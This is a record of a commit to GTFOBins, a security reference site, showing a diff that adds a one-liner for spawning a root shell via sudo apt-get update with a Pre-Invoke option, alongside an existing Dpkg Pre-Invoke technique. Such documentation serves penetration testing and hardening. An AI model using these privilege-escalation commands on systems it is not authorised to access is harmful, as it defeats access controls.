

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/apt.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add alternative apt* shell technique
Thanks to
https://lsdsecurity.com/2019/01/linux-privilege-escalation-using-apt-get-apt-dpkg-to-abuse-sudo-nopasswd-misconfiguration/

Also related to #38.

```diff
--- a/_gtfobins/apt.md
+++ b/_gtfobins/apt.md
@@ -15,4 +15,6 @@ functions:
         TF=$(mktemp)
         echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
         sudo apt install -c $TF sl
+    - description: When the shell exits the `update` command is actually executed.
+      code: sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
 ---
```
Also changed, not shown: _gtfobins/apt-get.md (+2 -0 lines).
